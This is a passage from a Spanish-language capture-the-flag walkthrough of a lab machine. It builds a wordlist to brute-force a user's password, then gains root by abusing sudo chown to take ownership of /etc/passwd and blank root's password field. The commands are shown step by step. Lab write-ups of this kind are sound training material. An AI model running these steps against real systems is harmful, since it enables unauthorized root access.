```css
cat text | tr ' ' '\n' > pass
```

si revisamos el nuevo archivo llamado "pass", veremos que todo el texto está separado por palabras, ahora simplemente copiamos el script ".sh" del repositorio y nos creamos uno en la máquina victima, le damos permisos con `chmod +x <nombre>.sh` y luego ponemos `./<nombre>.sh less pass`; luego de esperar un rato veremos este mensaje:

![pass](../../../maquina-r00tless/img/pass.png)

Ahora ejecutamos `su less` y ponemos la contraseña.

#### less

Si ejecutamos un `sudo -l` veremos que podemos ejecutar `chown` como root, por lo que ejecutaremos esto:

```css
sudo chown less:less /etc/passwd
```

esto hará que el archivo sea de nuestra propiedad, por lo que lo modificamos con nano y borramos la x de root, seria esta:

```css
root:<<<<<x>>>>>:0:0:root:/root:/bin/bash
```

deberia quedar así:

```css
root::0:0:root:/root:/bin/bash
```

guardamos y ahora ejecutamos `su` y listo, ya seremos root.

![root](../../../maquina-r00tless/img/root.png)

Gracias por leer.

